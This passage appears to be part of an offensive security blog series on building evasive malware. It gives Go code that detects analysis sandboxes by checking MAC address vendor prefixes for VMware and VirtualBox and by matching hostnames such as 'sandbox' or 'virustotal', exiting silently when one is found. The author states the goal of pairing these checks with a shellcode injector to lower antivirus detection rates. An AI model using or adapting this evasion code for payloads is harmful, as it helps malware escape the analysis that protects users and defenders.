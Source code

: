 This one is really interesting, it gets all available MAC addresses and compare them with all VBox and VMWare MAC prefixes

```go
func main(){
  ...

  ifaces, err := net.Interfaces()
  if err != nil {
    log.Fatal(err)
  }

  // Known virtualization vendor MAC prefixes
  known_macs := []string{"00:50:56","00:0C:29","00:05:69","00:1C:14","08:00:27","52:54:00","00:21:F6","00:0F:4B","00:14:4F"}
  for _, i := range ifaces {
    for _, mac := range known_macs {
      pc_mac := i.HardwareAddr.String()

      if strings.Contains(strings.ToUpper(pc_mac), mac) == true {
        os.Exit(0)
      }
    }
  }
}
```

And finally the last one, it checks the hostname (this one also could be done much better)

```go
func main(){
  ...

  hostname, err := os.Hostname()
  if err != nil {
    log.Fatal(err)
  }

  known_hostnames := []string{"sandbox","analysis","vmware","vbox","qemu","virustotal","cuckoofork"}
  for _, h := range known_hostnames {
    if hostname == h {
      os.Exit(0)
    }
  }
}
```

We won't use all the checks because some sandboxes are really well prepared against this techniques so they will even notice that we are doing some weird things so it will be flagged for that. That's why I just will use the CPU cores, drivers and disk size checks

At this point we've finished the anti-sandboxing part. After this, let's add the same shellcode injection from first post to see if detection rate has decreased.
